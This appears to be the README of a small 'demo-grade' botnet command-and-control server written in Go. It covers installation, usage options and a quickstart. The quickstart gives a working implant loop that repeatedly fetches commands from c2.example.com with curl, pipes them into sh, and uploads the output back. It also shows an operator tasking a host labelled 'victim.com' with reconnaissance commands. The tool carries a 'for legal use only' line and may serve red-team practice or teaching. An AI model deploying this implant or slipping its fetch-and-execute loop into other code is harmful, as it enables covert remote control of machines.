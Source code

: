 demobotnetcontroller
====================
Demo-grade botnet controller

Features:
- Comms via HTTPS with a self-signed cert.
- Tasking and output via plaintext files.
- Bot-tracking via plaintext files' mtimes.
- Minimal documentation-caused confusion.
- Minimal distractions due to excessive (or any?) features.
- Exploit resistance via `pledge(2)` and `unveil(2)` (OpenBSD-only).
- Tests (probably mostly OpenBSD-only).
- ~Only tested~ Works well with curl in a loop.

For legal use only.

Quickstart
----------
1. Download/install
   ```sh
   go install github.com/magisterquis/demobotnetcontroller@latest
   ```
2. Start it going
   ```sh
   demobotnetcontroller -h # For good measure
   demobotnetcontroller
   {"time":"2025-10-31T01:52:03.556730378+01:00","level":"INFO","msg":"Server starting","fingerprint":"Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE=","address":"127.0.0.1:4433","PID":62063,"directory":"demobotnet","prefix":"/demobotnet/"}
   ```
3. TLS is self-signed.  Use the fingerprint and URL prefix from the first log
   message to roll an HTTPS/shell something, e.g.
   ```sh
   while :; do
   ( curl \
           --insecure \
           --pinnedpubkey sha256//Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE= \
           --silent \
           https://c2.example.com:4433/demobotnet/$(hostname)-$$ |
   sh 2>&1 |
   curl \
           --insecure \
           --pinnedpubkey sha256//Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE= \
           --silent \
           --upload-file - \
           https://c2.example.com:4433/demobotnet/$(hostname)-$$ ) &
   sleep 10
   done
   ```
4. Tasking and output are in the directory in the first log message.  Output
   is in a file named `something_out`.  Tasking goes in a file with the same
   name, without the `_out`.
   ```sh
   # Wait for the first request, which won't likely be logged.
   cd demobotnet && sleep 15 && ls -l
   victim.com_1234_out
   # Someone called back: we see a file named victim.com_1234_out.  We'll give
   # it the sort of tasking one should give a new bot.
   echo 'ps awwwfux; uname -a; id' >> victim.com_1234 # Not _out, for tasking
   # Watch for output
   tail -f victim.com_1234_out # Output goes in _out
   ```

Usage
-----
```
Usage: demobotnetcontroller [options]

Demo-grade botnet controller.

- Comms over HTTP, GET for tasking, POST/PUT for output.
- URL path must have the right prefix, last component is bot ID.
- IDs must be [A-Za-z0-9-.]+
- Tasking goes into files named after the bots' IDs.
- Output will go to files named after the bots' IDs plus _out.
- TLS Fingerprint (for --pinnedpubkey) is in _tls_fingerprint.

Options:
  -debug
    	Enable debug logging
  -dir directory
    	Bot tasking/output directory (default "demobotnet")
  -listen address
    	Listen address (default "0.0.0.0:4433")
  -max-runtime duration
    	Maximum run duration
  -prefix string
    	HTTP path prefix for bots (default "/demobotnet")
```
